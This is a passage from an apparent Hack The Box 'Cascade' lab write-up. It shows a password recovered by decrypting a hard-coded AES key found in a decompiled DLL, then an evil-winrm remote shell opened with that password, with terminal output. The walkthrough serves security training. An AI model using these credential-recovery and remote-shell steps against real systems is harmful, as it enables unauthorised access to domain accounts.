 and in dll file →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade/dll]
└─$ tree                 
.
├── app.ico
├── CascCrypto
│   └── Crypto.cs
├── CascCrypto.csproj
├── CascCrypto.dll_Decompiler.com.zip
├── CascCrypto.My
│   ├── MyApplication.cs
│   ├── MyComputer.cs
│   ├── MyProject.cs
│   ├── MySettings.cs
│   └── MySettingsProperty.cs
├── CascCrypto.My.Resources
│   └── Resources.cs
└── Properties
    └── AssemblyInfo.cs
```
{: .nolineno}
{: .nolineno}

Now its time for inspection so I opened the `CascAudiot > MainModule.cs` file in sublime and got the secret key for encoding the LDAP password →

![Untitled](Cascade/Untitled%207.png)

And from /CascCrypto/Crypto.cs I got the AES encoded salt and the type of mode that is CBS so lets decode our password →

![Untitled](Cascade/Untitled%208.png)

I used this online site to docode the encoded password :

[](https://www.javainuse.com/aesgenerator)

![Untitled](Cascade/Untitled%209.png)

I got the LDAP password decoded as `w3lc0meFr31nd` for user `ArkSvc` :

```bash
ArkSvc : w3lc0meFr31nd
```
{: .nolineno}
{: .nolineno}

I started the winrm session →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ evil-winrm -i 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'         
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
*Evil-WinRM* PS C:\Users\arksvc\Documents> hostname
CASC-DC1
```